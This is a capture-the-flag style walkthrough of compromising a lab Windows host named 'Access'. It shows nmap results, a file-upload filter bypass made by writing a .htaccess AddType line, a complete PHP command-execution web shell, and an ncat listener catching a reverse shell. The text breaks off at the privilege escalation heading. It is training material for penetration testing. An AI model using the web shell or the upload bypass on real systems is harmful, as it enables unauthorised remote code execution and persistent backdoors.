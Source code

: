 ## First eunumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Mon Feb 26 10:52:11 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -Pn 192.168.163.187
Nmap scan report for 192.168.163.187
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-26 09:52:56Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-26T09:53:10
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 36s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 26 10:53:17 2024 -- 1 IP address (1 host up) scanned in 65.29 seconds
```


## Enumerating port 80 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/82904320-6246-447e-8f83-13db9f8822ca)

there's a web server running on port port `80`. checking the ip on a browser, we got a webpage 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/483f2902-3973-49ff-9eb4-2b745167abfd)

fuzzing the web application, we got diff dirs.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/37803a93-f0eb-4210-b80f-f485d848e830)

There's an upload function in the `buy-ticket` let's try upload a malicious file. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bd416e86-70c2-43b2-b7f5-f301e9d235a6)

trying to upload a php shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/400c15ea-ba97-4613-babb-8fda69f695fc)

we got error file type not supported. let's try bypassing it

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/beaa8b57-e876-4687-9443-3a7a5016296b)

after some research, found out we could overwrite the `.htaccess` and make a php shell uploadable. 

```
echo "AddType application/x-httpd-php .php16" > .htaccess
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bcfe0764-5268-457b-831f-0fbbd8dc3e04)

upload a file with `<?php phpinfo(); ?>` as `.php16`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/30363611-a51a-41b6-a045-2c483508860b)

upload a new file `.php16`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b6de0240-b442-4a6e-adf5-7407c847159f)

successfully upload the shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3cb21461-a2d7-44f0-af8b-79be8364cbe5)

triggered a phpinfo. let's spawn a reverse shell. 

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f84ad047-7fa4-4f4d-b205-9993454a587f)

uploaded a php cmd shell and we can run RCE. 

```powershell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Access]
└─$ rlwrap ncat -lnvp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.163.187:50445.

PS C:\xampp\htdocs\uploads> whoami 
access\svc_apache
PS C:\xampp\htdocs\uploads> 
```


## Privilege Escalation 


